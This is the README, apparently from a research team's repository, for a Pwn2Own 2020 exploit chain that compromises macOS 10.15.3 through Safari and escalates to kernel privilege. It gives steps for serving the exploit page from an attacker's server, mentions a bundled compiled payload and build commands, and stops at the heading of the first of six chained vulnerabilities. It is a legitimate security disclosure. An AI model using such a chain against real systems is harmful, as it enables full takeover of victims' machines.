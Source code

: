 Compromising the macOS Kernel through Safari by Chaining Six Vulnerabilities
======================================================================================

Overview
---------
This repository contains exploitation and technical details of [our Pwn2Own
2020 winning submission targeting Apple Safari with a kernel escalation
of privilege for macOS 10.15.3](https://www.thezdi.com/blog/2020/3/17/welcome-to-pwn2own-2020-the-schedule-and-live-results).
For further information, you can also check [our Blackhat USA 2020
slides](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf).
This repository also includes [our demo video](./movie.mov) for the succesful
exploitation.


How to reproduce
-----------------

1. Run the HTTP server using python3 in the exploits folder.

```shell
$ python3 -m http.server 80
```

2. Access the website with attacker server's IP with Safari:

```
http://[attacker_ip]/exploit.html
```

3. Wait for Calculator (usually popped in ten seconds, but if unlucky, it will
take some time) and a terminal with kernel privilege. To show our kernel
privilege escalation, we disabled SIP. You can check by running the
`csrutil status` command, which will show `disabled`.


Build from source
-----------------
For your convenience, we provided a compiled payload, `payload.js`. But, if you
want, you can build it by yourself. Note that this will take a very long time
because we will build WebKit as a part of our exploit chain. It is worth to noting
that we only tested our building process in Mac OS.

```shell
# Install xcode first
$ python3 -m pip install --user lief
$ make
```

Technical details
-----------------

To make this exploit, we chained the following *SIX* vulnerabilities.

### 1. Remote code execution in Safari via incorrect side-effect modeling of 'in' operator in JavaScriptCore DFG compiler
